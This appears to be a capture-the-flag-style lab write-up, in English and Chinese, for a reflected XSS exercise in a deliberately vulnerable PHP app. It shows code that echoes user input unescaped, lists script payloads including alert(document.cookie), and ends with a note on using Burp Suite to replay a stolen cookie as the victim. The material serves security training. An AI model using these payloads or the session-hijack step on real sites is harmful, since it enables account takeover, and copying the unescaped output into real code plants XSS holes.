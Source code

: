 # XSS (Reflected) - Low

## View Source

```PHP
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

- [`array_key_exists($a, $b)`](https://www.php.net/manual/zh/function.array-key-exists.php)
    - *b* 裡存在 *a* (*key*) 就回傳 *true*；沒有就回傳 *false*
- [*X-XSS-Protection*](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
    - *0: Disables XSS filtering.*

## Code Review

- 將使用者輸入串接成 `Hello xxx` 寫進網頁內容

## Answer

- 因為是 *GET*，要從網址或是輸入框注入都行

### Example

```
<script>alert(1)</script>
<script>alert(document.cookie)</script>
```

- View Page Source 也看得到 (因為不像 DOM based 是動態產生)
```HTML
<div class="vulnerable_code_area">
    <form name="XSS" action="#" method="GET">
        <p>
            What's your name?
            <input type="text" name="name">
            <input type="submit" value="Submit">
        </p>

    </form>
    <pre>Hello <script>alert(1)</script></pre>
</div>
```

### Note

- 可以使用 *Burp Suite* 的 *Proxy* 來修改發送的 *request* 封包，將 *Cookie* 替換成透過 *XSS* 得到的受害者 *Cookie*，就能直接以受害者的身分使用網站服務，不用進行登入